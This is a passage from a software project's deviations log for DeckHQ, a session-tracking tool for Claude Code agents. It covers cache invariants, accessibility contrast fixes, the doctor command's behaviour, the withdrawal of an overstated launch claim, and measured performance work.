The reason is the invariant. A stale summary's `turnEnded` feeds
`_computeAgents`, and `for_review` there calls `_markForReview`, which writes
`reviewSince` — a **user-owned** field that only `act()` can clear. The single
most likely reason a transcript's mtime moved while the daemon was down is that
the user typed into it, which is exactly the case where the cached summary says
"turn ended, up for review" and the truth is "the user already replied".
Painting that provisionally would manufacture a review debt on the floor that
then survives forever. Speed bought with a false debt is not speed; it is the
bug the product exists to prevent. The measured second start is 68 ms, so there
was nothing to buy by taking the risk.

What the cache is allowed to change is nothing at all, and that is asserted
directly: a scan served from the cache is deep-equal and `JSON.stringify`-equal
to a scan by a process that has never seen one.

**The §46 trap, which persistence sharpened.** The desktop app's `archived`
flag is stamped onto summaries *after* the cache, because archiving does not
touch the transcript. The old in-memory cache handed callers the object it was
holding, so that stamp landed *in* the cache — harmless only because the flag
was re-applied from a fresh read on every poll, and only for as long as that
read kept succeeding. Persisted, the same bug writes `archived: true` to disk
and survives restarts, and `archived` drives `let_go`: an agent the user
rehired would be re-fired on every poll, forever, with nothing on the floor to
say why. The cache now copies on the way out and strips `archived` on the way
in. Both halves are asserted, as `INVARIANT:` tests.

Stripping on `set` only covers files *this* build wrote, which is not the same
as covering the files it reads. A cache file is not a trusted input — it can be
hand-edited, restored from a backup, copied between machines, or left behind by
a build that had the copy-out bug above — so the flag is stripped at **both**
ingress points, `set` and every entry read off disk. Without the load-side
strip a planted `archived: true` is served straight back with no desktop store
present to correct it, and because the transcript is finished the entry stays a
cache hit forever, so the flag can never age out. Two more `INVARIANT:` tests
pin it, one on the cache and one through a real scan; both were confirmed to
fail with the load-side strip removed, so neither is vacuous.

Note which way the absent case goes: a summary from a cache hit carries **no**
`archived` key rather than `archived: false`. The registry reads a missing flag
as "this runtime cannot see an archive" and leaves `ackState` alone, and reads
`false` as "not archived", which rehires a let-go agent (§46). Neither of those
is a decision the cache is entitled to make.

The rest is the discipline the package asked for, all of it asserted: a
corrupt, truncated, empty, mis-shaped, foreign-runtime or wrong-version file is
discarded in silence and rebuilt — it is an optimisation, never state, so it
must never block a start and must never reach the user as an error; one
malformed *entry* is dropped without condemning the file; entries for
transcripts that no longer exist are evicted; the file is capped at 2000
entries and 8 MB, keeping the most recently active; and it is written
temp-file-then-rename like `store.mjs`. Writes are rate-limited to one per 30 s
after the first, so a live session churning on a 5 s poll cannot rewrite the
file forever.

**One thing the measurement found that is not the cache.** With the cache in, a
62–94 ms warm start is only **6–8 ms** of DeckHQ's own scan. The rest is
`readDesktopSessions()`, which `readFileSync`s and `JSON.parse`s every file in
`%APPDATA%/Claude/claude-code-sessions/` — 57 files, **8.3 MB** — synchronously,
on **every 5-second poll**. Pointing it at an empty directory drops the warm
start to 6–8 ms and the poll from 52–57 ms to 5–7 ms. It is now essentially the
entire cost of a scan, and it is what holds the warm scan against §8's < 50 ms
budget instead of comfortably inside it. Out of scope here: flagged, not
touched. **Closed in §78.**
## 69. `--muted` is one step lighter than the repalette spec proposed

**Spec:** the WP-06 chrome repalette — `docs/plan/05-GUI-UX-SPEC.md` §2.2, which lives on the
planning branch and is not in this tree — proposes `--muted: #7C8494` as part of the violet-blue
chrome ramp, with the acceptance criterion "body text ≥ 4.5:1".

**Shipped:** `--muted: #8A92A3`.

**Why.** `#7C8494` clears the bar on the two grounds the spec names — 4.89:1 on `--bg` and
4.52:1 on `--surface` — but `--muted` is not confined to those two. It sets normal-size text on
`--surface-2` in three places: `.tooltip-line` (0.68rem, the floor tooltip's detail lines),
`.btn.is-busy` (0.72rem) and `.filter-chip::after` (the project filter's clear glyph). There it
measures **4.02:1**. The warm palette this replaces measured **4.68:1** on the same ground, so
shipping the proposed value would have been a real accessibility regression introduced by an
accessibility-motivated change — and one that a suite testing only `--bg` and `--surface` would
have called green.

`#8A92A3` measures 5.89 / 5.45 / **4.84** on `--bg` / `--surface` / `--surface-2`. It is still
comfortably the quietest ink in the set (`--ink-2` is 9.77 on `--bg`), and it stays on the same
~221° ramp as the rest of the neutrals.

The alternative was darkening `--surface-2`, which would have flattened the raised-surface step
the ramp exists to create. The spec's own instruction is that the *ground* moves when a **state**
colour fails; `--muted` is ours, so the ink moved instead.

The test now asserts the threshold rather than assuming it: it finds every rule that sets text in
`--muted`, checks whether any is below the WCAG large-text size, and only then holds the token to
4.5:1 — on all three grounds, naming the offending selector when it fails.

## 70. Error and status text left the accent colour

**Spec:** `docs/03-VISUAL-SPEC.md` §5 and §10, and `public/style.css`'s own header: state is
never carried by colour alone, and small text is never set directly in a state colour.

**Measured:** four rules were breaking that, and the repalette made each of them worse rather
than better, because the cold ground is slightly darker than the warm one it replaced:

| Rule | Size | Colour | On | Was | Now | Needs |
|---|---|---|---|---|---|---|
| `.toast.is-error` | 0.70rem | `--accent` | `--surface-3` | 2.65 | 2.39 | 4.5 |
| `.btn--danger:hover` | 0.72rem | `--accent` | `--surface-2` | 2.93 | 2.78 | 4.5 |
| `.hooks-error` | 0.82rem | `--accent` | `--surface` | 3.22 | 3.13 | 4.5 |
| `.composer-hint.is-warn` | 0.60rem | `--accent` | `--bg` | 3.39 | 3.38 | 4.5 |
| `.hooks-badge.is-installed` | 0.60rem | `--state-working` | `--surface` | 3.53 | 3.43 | 4.5 |

The toast is the worst of these and the most consequential: it is the surface that tells you a
send failed, it is on screen for a few seconds, and at 2.39:1 the sentence was close to
unreadable on the dark ground.

**Shipped:** the colour moves off the words and onto a carrier that only has to clear the 3:1
non-text floor — a 2px left rule for `.hooks-error` and `.composer-hint.is-warn`, the existing
border plus a 6px dot for `.toast.is-error`, the existing border for `.btn--danger:hover` and
`.hooks-badge.is-installed`. The message itself is now `--ink` (14.66:1 on `--surface`). This is
the pairing `.dialog-error` and `.state-chip` already used; these five were the stragglers.

The one place the accent still colours text is `.needs-you-total .stat-v`, and it survives on
size: 1.3rem at weight 700 is 20.8px bold, which WCAG counts as large text, so its floor is 3:1
and it measures 3.13 on the topbar. It is also always paired with its "NEEDS YOU" label. A test
now asserts that this is the *only* such rule, so the next `color: var(--accent)` fails the suite
rather than the user.

## 71. IBM Plex Sans Condensed was not added — **RAISE**

**Spec:** `docs/plan/05-GUI-UX-SPEC.md` §2.3 (planning branch, not in this tree) calls for adding
IBM Plex Sans Condensed, self-hosted in `public/fonts/`, for floor labels — room plates, name
labels, badges.

**Not shipped.** It requires vendoring binary woff2 files into the repository, which is the
orchestrator's decision and has not been made. WP-06 shipped the repalette only. The floor labels
remain IBM Plex Sans, so the 15–18% horizontal saving §2.3 wants for label collision
(DEVIATIONS §15) is still outstanding, and §6.2's label sizes are unaffected either way.

No web font link was added and none may be: rule 2 of the orchestrator brief forbids network
egress and the CSP in `src/http/server.mjs` forbids it independently.

If the decision is to proceed, the shape of the work is fixed by what the floor already draws.
`public/render/rig.js`'s `sansFont()` sets agent name labels at **600**, and
`public/render/scene.js:1252` sets the room-plate name at **700** — so it is two weights, SemiBold
and Bold, not one as §2.3 assumes. A basic-Latin woff2 subset runs roughly 15–25 KB per weight
(30–50 KB for the pair); the full Latin-1/2/3 coverage IBM ships is closer to 25–35 KB each. The
`@font-face` blocks go at the top of `public/style.css`, above `:root`, alongside a
`--font-condensed` token; the renderer does not read CSS variables today, so `scene.js` and
`rig.js` would each need their own font constant updated, and both are outside this package.
## 72. `deckhq doctor` cannot print the runtime's version — **RAISE**

**Spec:** `06-ENGINEERING-WORKPLAN.md` WP-05 shows the first row of the report
as `claude          2.1.184 on PATH`.

**Why it is not there:** the only way to learn a runtime's version is to ask the
runtime — `claude --version` — and that is spawning a runtime CLI. The
orchestrator brief §7.8 and `02-ARCHITECTURE.md` §2 both put that strictly
inside an adapter, and the adapter interface exposes no `version()`. The
transcript format does carry a version field, but reading it here would be
transcript parsing outside an adapter, which is the same rule. WP-05's own
package boundary excludes `src/adapters/**`, so the interface could not be
extended in this package either.

**Shipped:** the row reads `claude code     available` when the runtime is
present and `codex           not installed` when it is not. `collectRuntime()`
calls `adapter.version?.()` and renders `<version> on PATH` when it gets a
string, so the row fills itself in with no further change here on the day the
adapter interface grows the method. `test/unit/doctor.test.mjs` pins both
branches.

**The call to make:** add `version(): Promise<string|null>` to `RuntimeAdapter`,
cached for the process lifetime like `available()`. It is one `execFile` per
adapter and it makes the launch asset noticeably more concrete.

## 73. Report wording that departs from the WP-05 sample

Three small departures, all in the same direction — say only what can be
checked.

**`claude code`, not `claude`.** The row label is `adapter.label` lowercased, so
every runtime in the registry names itself and nothing here holds a table of CLI
binary names; a third adapter gets a correct row the day it is registered. The
proof card's left column reads `claude code · its own agent view` rather than
`claude agents` for the same reason, and because `claude code agents` is not a
command anyone can run.

**`live now  5   (claude code's own agent view reports 5)`.** The sample reads
`(claude agents reports 3)`. The two numbers are necessarily equal — DeckHQ's
live count *is* `liveSessions()`, which is that view — and printing both is the
point: it shows we are not inflating our side of the subtraction.

**`egress  none. no outbound sockets.`** The sample says `0 outbound sockets
since start`. `doctor` is a one-shot command with no "since start" to measure
and no socket counter to read, so it does not imply one. The claim is still
exact: every socket the command opens is to 127.0.0.1 — one TCP probe for "is
anything listening on the hooks' port", and, when there is, one read of the
running daemon's `/api/hooks` for the event counters, which exist only in that
daemon's memory.

**Measured on the reference machine:** 67 sessions across 16 projects, 5
running, 62 already finished; hooks installed on port 4400 with 37 events
delivered; exit 0. The `--capture-proof` PNG rendered at 2400×1260 in about
four seconds.

## 74. The capture proof overclaimed, and the claim has been retired

This is the most important entry in this file, because the thing it corrects
had already been written, reviewed, screenshotted and committed.

**What shipped first.** `deckhq doctor --capture-proof` headlined:

> DeckHQ sees 61 sessions the agent view cannot

**The measurement that killed it.** `claude agents --json` was run on the
reference machine. It returns **all** live sessions, every one
`kind: "interactive"`, including sessions launched from terminals in other
repositories. It is not blind to terminal sessions on this version.

So the headline was comparing **5 running** against **66 all-history** and
calling the difference invisibility. Literally true — 61 is a real subtraction
— and rhetorically dishonest. Anyone who ran `claude agents` after reading the
image would have seen their terminal sessions listed, concluded we had fudged
the number, and been right. The whole project's credibility rests on an
honest-limits discipline (this file is that discipline), and one overstated
launch image costs more than it wins.

**What is actually true.** The difference is not sight, it is **persistence**.
A view derived from live processes forgets a session the instant its process
exits. DeckHQ keeps it, and keeps whether it still owes you an answer. That is
the invariant (`01-PRODUCT.md` §2), it is the actual product, and it cannot be
disputed by running any command.

**Shipped instead.**

- The left number is labelled as what it is — *sessions running right now* —
  not "sessions it can see".
- The headline leads with the debt: `7 finished sessions are still waiting on
  you.` / `The agent view lists none of them. Oldest: 26h.` That number is
  `waitingNotRunning`: sessions that owe the user an answer **and** whose
  process is not running. A session the runtime still lists as live may be
  sitting on a permission prompt — the runtime's own view *would* show that
  one, so counting it here would repeat the original sin at smaller scale. The
  snapshot carries a per-agent `live` flag, so the intersection is exact.
- The debt is only knowable from a running daemon. With no daemon, the card
  falls back to a bare descriptive count — `62 of them have already finished.`
  — and makes **no comparative claim at all**, rather than a softened version
  of the old one.
- The words "cannot see", "invisible", "blind" and "hidden" appear nowhere.
  Where the difference is named, it is *no longer lists* or *forgets when the
  process exits*.

**Guarded by** a test named `INVARIANT OF HONESTY: nothing ever claims the
agent view cannot SEE a session`, which asserts those phrasings are absent from
both the stdout report and the card, and by a test that the no-daemon fallback
reinstates no comparative claim. The absence is tested, not just the presence.

**Measured on the reference machine after the change:** 5 running, 67 on the
floor, 62 finished, 0 genuinely waiting (all 3 waiting sessions were still
running), so the card correctly rendered the fallback headline rather than a
debt it could not substantiate.

## 75. `doctor` exits 0 when hooks are installed and DeckHQ is simply not running

**Spec:** WP-05 lists "hooks installed at a port nothing is listening on" as a
condition that must exit non-zero.

**Why that was wrong:** it is the state of most machines most of the time. The
daemon is not running, so nothing is listening, so the hooks are inert — and
they resume delivering the moment it starts. `doctor` is going to end up in
health checks and CI, and a command that fails on the normal resting state of
the product is useless there.

**Shipped:** the check now distinguishes the two cases by looking for the
daemon rather than only at the one port.

- No daemon anywhere on the loopback range: an informational `·` note, exit 0.
- A daemon running on a **different** port from the one the hooks target: exit
  1. This is the failure the check is actually for, and it is invisible in
  every other surface — the settings file is valid, the header claims exact
  state, and every event is dropped.

Detection TCP-probes the hook ports plus `4317..4326` (the range the daemon
walks when its preferred port is taken) in parallel, then speaks HTTP only to
the ports that answered, identifying a daemon by a well-formed `/api/state`.
`--port` widens the search for anyone running further out.

Exit 1 is now reserved for: state not writable, a hook/daemon port mismatch, no
runtime available at all, or an adapter that threw.

## 76. `process.exit()` turned a healthy `doctor` run into exit 127

Found by running the finished command, not by any test.

`bin/deckhq.mjs` ended the subcommand with `process.exit(await runDoctor(...))`.
Once `doctor` started reading the deck from a running daemon, every invocation
aborted **after printing a complete and correct report**:

```
Assertion failed: !(handle->flags & UV_HANDLE_CLOSING), file src\win\async.c, line 94
EXIT=127
```

`process.exit()` tears the event loop down immediately; the loopback socket
from the `fetch` was still closing, and libuv aborts the process rather than
touch a closing handle. Reproduced deterministically, and bisected: the probe
alone exits 0, the fetches alone exit 0, both together exit 0 — only
`process.exit()` afterwards aborts.

Fixed on both sides: the bin script sets `process.exitCode` and lets the loop
drain (measured: no delay, nothing holds it open), and `doctor` sends
`Connection: close` on its two loopback requests so no idle keep-alive socket
outlives the report in the first place.

The lesson worth keeping: **the exit code is part of the output.** 364 unit
tests all passed against a binary that could not exit successfully, because
they call `runDoctor()` and assert its return value — they never spawn the
CLI. A command's contract includes how it ends.

## 77. The live roster is cached, because asking for it booted the whole CLI

`liveSessions()` ran `claude agents --json` through `execFile` on **every**
daemon poll — `Registry._doRefresh` calls it once per refresh, and
`Registry.start` refreshes every `pollIntervalMs`, default 5000. The command
works and returns real data; nothing was failing and nothing was being
retried. It is simply the most expensive question in the product, asked
twelve times a minute, forever.

Measured on this machine (Windows 11 ARM64, 68 sessions on disk, 6 live),
with `Start-Process -PassThru -Wait` so the child's own processor time is
read rather than inferred:

| One `claude agents --json` | |
|---|---|
| Wall time | 1027–1130 ms |
| **Child CPU** | **406–984 ms, median 609 ms** |

It is booting the entire Claude Code CLI to print six lines of JSON. At one
spawn per 5 s that is **~12% of one core** (8–20% across the range), spent
out of process and therefore invisible to any measurement taken on the
daemon's own process time. §11 reports **1.9%** for this same daemon; that
figure cannot have counted the spawned CLI, or it would have read ~14%.
`docs/02-ARCHITECTURE.md` §8 allows **2%**.

This is a different failure from §11's. That one was event-loop blocking and
was fixed by not re-reading unchanged files. This one is wall time and
out-of-process CPU: the daemon's own block during a refresh is 17–55 ms, and
always was.

### What it costs to not ask

The roster is now cached for `LIVE_PROBE_TTL_MS`, and the two transitions
that matter are recovered without spawning anything:

- **A session that exits** — the common case, and the one the floor must not
  get wrong — is caught by `process.kill(pid, 0)` against the cached roster on
  every call. `agents --json` already returns a `pid`. Measured at **0.055 ms
  for a whole roster**, against 609 ms for a probe. Death is still noticed
  within one poll, exactly as before.
- **A session that comes alive** is caught by the scan, which was running
  anyway: a transcript whose `lastActivityAt` is newer than the last probe,
  belonging to a session that probe did not list, sets a flag that drags the
  next `liveSessions()` forward instead of waiting out the TTL. This is what
  keeps the degraded path (§4.2) honest, where the poll is the only liveness
  signal there is. With hooks installed `SessionStart` already reports it
  directly and authoritatively, which is why no hook-awareness was added —
  see below.

What is left stale is the single case neither covers: a session that starts
or resumes and then **writes nothing at all** — a terminal opened and left
sitting at the prompt. Its `live` flag reads false for up to the TTL. That is
the whole price, and it is bounded, self-correcting, and cannot touch
user-owned state: `live` is an observation, and `for_review` is sticky
through a liveness loss either way.

### The numbers

Same harness for both arms, each arm in its own process so the module state
is fresh, three rounds with the order flipped each round so machine drift hit
both equally. A "poll" is one `scanSessions()` + one `liveSessions()`, the
pair `_doRefresh` runs, at the daemon's real 5 s interval. The **before** arm
runs the identical spawn path, forced every poll.

Three rounds of 24 polls, a ~115 s window each:

| Per 24 polls (~115 s) | before | after |
|---|---|---|
| CLI spawns | 24, 24, 24 | **2, 2, 3** |
| `liveSessions()` median | 521–721 ms | **0.1 ms** |
| `liveSessions()` total over the window | 14.0–18.3 s | **1.0–1.5 s** |
| Share of one core (spawns × 609 ms median CPU) | 12.7% | **1.1%** |

The `after` round that spent three spawns is the arithmetic working: a 115 s
window crosses a 60 s TTL twice, plus the mandatory first probe.

Live counts drifted between arms within a round (6 vs 7 in round two) because
real sessions on this machine start and stop while a four-minute measurement
runs. That proves nothing either way, so equivalence was measured directly
instead: two module instances in one process, one on the shipped path and one
forced to probe on every poll, their rosters compared **in the same poll**.
**12 polls, 12 exact agreements, no session in one roster and not the other.**

The daemon was then run for real on port 4499: 70 agents, 8 live, 18 projects,
stable across polls, nothing on stderr.

### Why 60 s, and why the 10 s floor

`LIVE_PROBE_TTL_MS` was set against the budget, not by taste. At 609 ms of
child CPU per probe, a 30 s TTL still spends ~2% of a core at idle — the
entirety of §8's allowance, on one question. 60 s is ~1%, and the extra 30 s
of staleness lands only on the "alive and silent" case above, which the scan
trigger cannot see at any TTL.

`LIVE_PROBE_MIN_INTERVAL_MS` (10 s) is a floor on how often disk evidence may
drag a probe forward. Without it, a top-level transcript being appended to by
something the roster never lists would force a spawn on every poll — the
exact behaviour being removed. `deckhq`'s own `send()` (`claude --resume -p`)
is a plausible source of one. The worst case with the floor is one probe per
10 s, ~6% of a core, and only while such a file is actively being written —
which is not idle. A memo of ids a probe has already declined to explain
would remove even that; it was left out because it needs its own eviction
rule for a case that has not been observed.

### Options weighed and not taken

- **Skip or slow the probe when hooks are installed.** Hooks are the
  authoritative liveness path (§42, and the "accurate path" comment in
  `_computeAgents`), so this is tempting. Rejected: the registry already
  prefers `hookLive` over the poll wherever it has one, so the probe is only
  load-bearing for a session that has fired no event yet — which is precisely
  the case a hook-aware TTL could not help with. It would buy two staleness
  contracts to explain, a second code path to test, and a settings-file read
  in the adapter, for a case the scan trigger already covers.
- **Derive liveness from pid checks alone, with no probe.** Cannot discover a
  session the daemon has never seen running, and cannot survive a daemon
  restart. It is the right *refinement*, not a replacement, which is how it is
  used.

### Not fixed, and measured on the way past

The warm scan is over budget for a reason that has nothing to do with this
change. §8 sets warm < 50 ms and §11 measured 3–5 ms; it now runs **99–220 ms
(median ~150)**, of which `readDesktopSessions()` — the §46 archive join — is
**65–140 ms**. It re-reads and re-parses all 58 files in
`%APPDATA%/Claude/claude-code-sessions/` on every single scan, with no cache
of any kind, because §46 deliberately applies it *after* the summary cache so
an archive flag cannot go stale. That ordering is right; re-reading the store
to honour it is not. Left alone here because it is a separate defect with a
separate fix (an `(mtime, size)` cache on the store directory, matching the
summary cache), and folding it into this change would have made both
unmeasurable. **Fixed in §78.**

## 78. The desktop store's own read is cached, keyed on the file that carries the flag

§68 flagged this and §77 measured it on the way past without fixing it: with
the summary cache in, `readDesktopSessions()` was **essentially the entire cost
of a warm scan**, and it runs on every 5 s poll forever. §77 named the fix it
was leaving — "an `(mtime, size)` cache on the store directory, matching the
summary cache" — and this is that. §11 had the warm scan at 3–5 ms once the
summary cache landed; the desktop-store read added in §46 put it back outside
the **< 50 ms** budget in docs/02-ARCHITECTURE.md §8.

Each file's *parsed* result is now cached in
`src/adapters/claude-code/desktop.mjs`, keyed by `(path, mtime, size)` — the
same invalidation rule `src/core/summary-cache.mjs` uses.

Measured on this machine (Windows 11 ARM64, **61** desktop session files
totalling **8.8 MB**, 70 transcripts), the two arms interleaved and their order
flipped between passes so machine drift hit both equally; four fresh processes
per arm per pass, each doing a first scan and then eight polls.

It was measured twice, in two different machine conditions, because the first
window disagreed with §77's numbers and the difference turned out to be load
rather than code. Both are reported. Per-pass medians, with the full range
across every run in the window:

**Quiet machine** (three passes):

| | before | after |
|---|---|---|
| `readDesktopSessions()`, warm | 78.4–80.5 ms (71.3–105.0) | **1.2–1.3 ms** (1.1–2.2) |
| **Warm scan — every poll** | **82.5–87.4 ms** (75.6–154.6) | **4.5–5.1 ms** (3.5–9.2) |
| First scan of a process | 99.8–120.5 ms (89.3–154.5) | 94.2–100.0 ms (85.6–157.8) |

**Busy machine** (seven passes, several other agent sessions running):

| | before | after |
|---|---|---|
| `readDesktopSessions()`, warm | 82.5–169.1 ms (72.4–528.0) | **1.3–3.2 ms** (1.1–8.4) |
| **Warm scan — every poll** | **116.1–173.0 ms** (58.2–308.2) | **4.8–8.9 ms** (3.1–36.6) |

| | before | after |
|---|---|---|
| Files opened per poll | 61 | 0 |
| Held in memory | — | ~120 KB, measured after `gc()` |

The busy window is where §77's **99–220 ms** came from — it reproduces almost
exactly — so the two records agree; a quiet machine simply reads 82–87 ms. The
ratio is what is stable: the warm scan is **17–20x faster** in both windows,
and lands an order of magnitude inside §8's budget from either starting point.
The control arm — `DECKHQ_DESKTOP_SESSIONS_DIR` pointed at a nonexistent
directory, i.e. the same scan with no desktop store to read at all — polls in
3.0 ms quiet, so the store now costs a scan about **1.5 ms** instead of about
96% of it. The first scan of a process is unchanged within noise; the `fstat`
note below is why it is not worse.

**It is deliberately not folded into the summary cache, and §46's ordering is
untouched.** That cache is keyed by the *transcript's* mtime, and archiving a
session does not touch its transcript — so a flag cached there goes stale the
moment the user archives something and stays stale until the conversation
happens to change, which for a finished session is never. `archived` drives
`let_go`, so a stale `true` re-fires an agent the user rehired, on every poll,
forever (§46, §68). The flag has to stay keyed to the file that actually carries
it, and the app rewrites exactly that file when the user archives — so the flip
is still seen on the very next poll. The adapter continues to stamp `archived`
onto summaries *after* the summary cache, exactly as before; nothing about that
ordering moved.

**It never persists.** The whole point of that ordering is that this answer is
re-derived from the app's own store on every run, so a restart starts empty. An
in-memory cache is all the poll loop needs, and a persisted one would be the
§68 trap with a longer fuse.

**`fstat` off the open handle, not a second `statSync`.** The obvious shape —
stat every file, then read the ones that moved — costs a path lookup per file
that the old code never paid, and on a cold metadata cache that measured **30–50
ms** across 61 files, on a quiet machine: first scans went from ~95 ms to
125–146 ms, handing back on the first scan much of what the cache saves on
every later one. So a file is
`statSync`-ed only when there is a cached entry to compare it against; with
nothing cached it has to be opened anyway, and `readRecord` takes the stamp
from `fstatSync` on that handle. A cold run does one path lookup per file, as
it always did, which is why the first scan in the table is back at parity.

The stamp is taken **before** the read, deliberately. That direction can only
attribute new content to an old stamp, which the next poll re-reads; the
reverse attributes old content to the new stamp and pins it in the cache for
good.

**What it inherits from the summary cache, on purpose.** Copies out, never the
held object — the field a caller would be mutating is `archived`, which is the
§68 copy-out bug in the one store where that flag actually lives. A file the
app deleted loses its entry, so a daemon left running for months cannot
accumulate them; but an *empty listing* evicts nothing, because that is also
what an unreadable or momentarily missing store directory returns, and emptying
a good cache on it buys nothing but a re-read of 8.8 MB. A file that is
unreadable, corrupt, mid-write or simply not this store's shape yields no entry
and does not condemn the rest — and that verdict is cached too, so a store full
of files this adapter cannot use is not re-parsed on every poll either. No
runtime dependency was added, and every byte of format knowledge stayed inside
`src/adapters/`.

**The residual exposure, stated plainly.** `(mtime, size)` cannot see a change
that lands inside one filesystem timestamp tick *and* leaves the byte count
identical. That is the same exposure `src/core/summary-cache.mjs` already
accepts, and it is narrower here: archiving is user-paced, seconds apart at
worst, and `"isArchived":true` and `"isArchived":false` differ in length
anyway. It was not worth a content hash, which would mean reading all 8.8 MB
every poll — the exact cost being removed.

Eleven tests in `test/unit/claude-desktop-cache.test.mjs` — in-process, so they
can count the reads that did and did not happen, which `desktopSessionsDir()`
allows by reading the environment per call rather than at import — plus three
added to `test/unit/claude-scan-cache.test.mjs` for the same-process poll path
its start-to-start tests never reached. Each was confirmed to fail against a
deliberately broken build — a cache keyed on path alone, no cache at all, no
copy-out, and a cache that serves its entries when the store directory
disappears — so none of them is vacuous. One earlier draft *was*: a scan-level
copy-out test that could not fail, because the adapter mutates the summary and
never the desktop record. It was replaced rather than kept for the count.

## 79. The desktop store's read stops blocking, and stops parsing 155 KB for two fields

§78 cached this read and left two things on the table, which its own table
shows: a process's **first** scan barely moved (99.8–120.5 ms before,
94.2–100.0 ms after), because a cache miss still read and parsed a whole
~155 KB file — and it did all of it **synchronously, on the event loop**. A
cache turns "every poll" into "every change", but every change still costs
full price, and the daemon's HTTP server and SSE stream stop being served for
the duration.

Two further bounds, both in `src/adapters/claude-code/desktop.mjs`. The cache
from §78 is unchanged and so is its reasoning — including the `fstat`-on-the-
open-handle stamp, the copy-out on the way to the caller, and the empty-listing
guard on eviction.

**The reads are asynchronous.** `fsp` throughout, at the read concurrency of 8
the transcript scan uses. Results are still assembled in listing order, not
completion order, so two files claiming the same `cliSessionId` resolve the
same way on every poll — the sequential loop gave that for free and it had to
be kept deliberately.

**A miss reads a bounded head window, not the file.** 99.1% of every byte in
these files is one field, `remoteMcpServersConfig`, and `JSON.parse` was
building the whole object graph to answer two questions. A scanner walks the
JSON text instead: it records only `cliSessionId`, `isArchived` and `title`,
skips every other value without materialising it, and stops as soon as it has
all three — over an 8 KB prefix read off the handle that is already open.
Across the 57 session files measured, the last of the three sits at byte 397
(median), 507 (p95), 626 (worst), so 8 KB is thirteen times the worst case.

The scanner reads **top-level** keys only. A `cliSessionId` nested inside some
other object is not this session's id, and the app's own
`backgroundTaskSuggestions` really does carry nested session records — a regex
over the text would take the wrong one. Asserted.

Two fallbacks, because this is a store DeckHQ does not own and dropping a
session silently is worse than reading it slowly: a window that cannot answer
costs the whole file, and text the scanner cannot read still goes to
`JSON.parse`. So the scanner can be slower than what it replaced, never
blinder. Neither fires on any of the 61 files here; the `fullReads` counter on
`desktopCacheStats` counts them, and the tests assert which path ran.

Measured on this machine (Windows 11, **61** desktop session files, 60 of them
joinable, ~140 KB each), both arms in one process, interleaved and their order
flipped between passes so machine drift hit both equally: 4 passes, a first
call plus 8 warm polls each. "Longest block" is the largest gap between
consecutive event-loop turns, taken with a `setImmediate` chain — Windows'
~15.6 ms timer resolution puts a floor under any `setInterval` figure, which
is why §77 and §78 could only see this cost as wall time.

| | §78 (sync, whole-file parse) | this change |
|---|---|---|
| **First call of a process** | 116.6 ms (106.2–120.4) | **11.3 ms** (7.4–21.1) |
| First call, longest block | 116.7 ms (107.1–120.5) | **0.9 ms** (0.6–1.1) |
| Warm poll | 2.2 ms (1.4–8.3) | 2.5 ms (1.9–3.2) |
| Warm poll, longest block | 2.3 ms (1.4–8.3) | **0.8 ms** (0.5–1.0) |

And the case a running daemon actually meets — one archive flip, which
invalidates exactly one entry (synthetic store, 61 files of 220 KB, 11 flips):

| | §78 | this change |
|---|---|---|
| One changed file | 3.95 ms | **1.78 ms** |
| longest block | 4.06 ms | **0.36 ms** |

**The warm wall time did not improve, and is marginally worse** — 61
asynchronous `stat` calls cost a little more than 61 synchronous ones. That is
the honest result: §78 had already taken the warm path down to a stat per
file, and there was nothing left in it. What changed warm is the *blocking*,
2.3 ms to 0.8 ms, and what changed a great deal is everything that is not a
pure cache hit. `scanSessions` end to end on this machine: 86.2 ms first,
8.2 ms warm median (7.5–10.3), against the **< 50 ms** budget in
docs/02-ARCHITECTURE.md §8.

Behaviour is unchanged and was checked as such: over the real store both
versions return the same 60 entries, the same values, in the same order, and
all eleven of §78's own tests pass against this one untouched apart from the
`await`. §46's ordering is intact — the flag is still read once per scan and
still applied after the summary cache, and it is still keyed to the file that
carries it.

No new dependency, no network, and every byte of format knowledge is still
inside `src/adapters/claude-code/`.

## 80. WP-51: the debounce test is proved on an injected clock, not a widened window

**Spec:** WP-51 (`08-PLAN-V2-100X.md` §9) offers two remedies for the flaky
`save() debounces` test: "fake timers or a widened, explicitly documented
window."

**What actually failed.** Run 33756126370, `windows-latest`, Node 18 and 20,
the same assertion both times:

```
not ok 403 - save() debounces: no write appears before ~250ms, one appears after
  error: 'must have written after the debounce window'   false !== true
  duration_ms: 886.5 (Node 18)   1948.6 (Node 20)
```

The test slept 100 ms, looked, slept 300 ms, looked again — and at 400 ms the
file was not there. The durations say the sleeps were honoured (the test took
0.9 s and 1.9 s end to end against a 0.4 s script), so it was not only the
timer arriving late: `_writeNow()` is `mkdir` + `writeFile` + `rename`, and on
a shared Windows runner under the full matrix, 150 ms of slack for three
filesystem calls was not enough. That rules out the widened window. Any sleep
length is a guess about a machine we do not own, and the test would keep the
same shape — two looks at the disk with a wall clock in between.

**Shipped.** The store's debounce clock is injectable. `new Store(file, {
timers })` takes `{ setTimeout, clearTimeout }` in the shape of the globals and
defaults to them, so `src/daemon.mjs` constructs the store exactly as before.
`SAVE_DEBOUNCE_MS` is exported. The test hands in a clock it cranks by hand
and asserts, in order:

1. no file synchronously after `setAck()`;
2. exactly one timer scheduled, for exactly `SAVE_DEBOUNCE_MS` — the debounce
   exists and is the documented one;
3. after the event loop turns, still no file — nothing but that timer can
   reach the disk, so this cannot flake in either direction;
4. fire the timer, `await store.flush()` — the public API, which with no timer
   pending awaits only the write in flight — then the file exists with the
   expected record, and nothing was rescheduled.

The sibling "rapid successive writes coalesce" test slept 350 ms for the same
reason and now proves the stronger thing directly: three mutations inside one
window share one timer. `flush()`'s own tests were already deterministic.

**Why not `node:test`'s `mock.timers`.** It arrived in Node 20.4; `engines`
says `>=18` and CI runs 18. Mocking the globals would also have reached into
every other timer in the process, where an injected clock touches exactly the
one under test.

**Measurement.** `npm test` three times locally: 443/443, 443/443, 443/443;
the file alone three times, 13/13 each. What cannot be produced here is the
acceptance criterion itself — ten consecutive green runs on `main` across all
nine combinations — because it is CI's to produce after the merge.

## 81. WP-43: the manifests are release assets, and winget and scoop install a zip

**Spec:** WP-43 (`08-PLAN-V2-100X.md` §9) item (3): "Homebrew tap, winget and
scoop manifests from the same workflow." `07-AGENT-HANDOVERS.md`: "a tag
publishes to npm with provenance, creates the GitHub Release, and generates the
Homebrew, winget and scoop manifests." The orchestrator's brief for this
package: generate all three in the job and "upload them as release assets
(simplest correct option)".

**Shipped as briefed, with these departures from the plan text recorded.**

1. **No tap, no bucket, no winget-pkgs PR — release assets instead.** A
